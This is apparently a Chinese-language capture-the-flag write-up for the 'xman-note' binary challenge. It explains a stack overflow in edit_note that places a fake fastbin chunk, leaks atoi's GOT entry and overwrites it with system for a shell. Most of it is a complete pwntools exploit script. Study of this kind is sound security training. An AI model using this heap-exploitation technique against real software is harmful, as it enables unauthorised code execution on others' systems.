 # 标题

> xman-note

## **原理**

利用栈溢出 fake chunk ，修改got的值。

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**
审计一下代码，在edit_note中 存在一个栈溢出：

![](./pic/1.png)

思路：

- 在输入name的时候，在bss段构造fake chunk。

![](./pic/2.png)


- 在dest中写入内容，并覆盖到 v7，然后再释放v7，这样 就将 fake chunk放入fastbin中。

![](./pic/3.png)

- malloc chunk，并将 atoi 的got_addr写入chunk中，同时也覆盖掉了ptr[0]。通过show_note的功能，得到got_addr的值。

![](./pic/4.png)

- 得到got_addr的值之后，就可以计算出libc的基地址，进而计算出system的地址。

- 触发atoi函数，输入 /bin/sh

![](./pic/5.png)




完整exp：

```
from pwn import *

p=process('./note')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def newnote(length,x):
    p.recvuntil('--->>')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(str(length))
    p.recvuntil(':')
    p.sendline(x)


def editnote_append(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(x)

def editnote_overwrite(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(x)

def shownote(id):
    p.recvuntil('--->>')
    p.sendline('2')
    p.recvuntil('id')
    p.sendline(str(id))

#fake chunk
p.recvuntil('name:')
p.send('a'*0x30+p64(0)+p64(0x70))

p.recvuntil('address:')
p.sendline(p64(0)+p64(0x70))

#溢出
newnote(128,94*'a')
editnote_append(0,'b'*34+p64(0x602120))#ptr_addr

atoi_got = 0x602088
newnote(0x60,p64(atoi_got))

shownote(0)
p.recvuntil('is ')
atoi_addr = u64(p.recvline().strip('\n').ljust(8, '\x00'))
atoi_libc=libc.symbols['atoi']
sys_libc=libc.symbols['system']
system=atoi_addr-atoi_libc+sys_libc
print "system="+hex(system)

#修改got
editnote_overwrite(0,p64(system))

#触发
p.recvuntil('--->>')
p.sendline('/bin/sh')
p.interactive()

```

## **参考阅读**


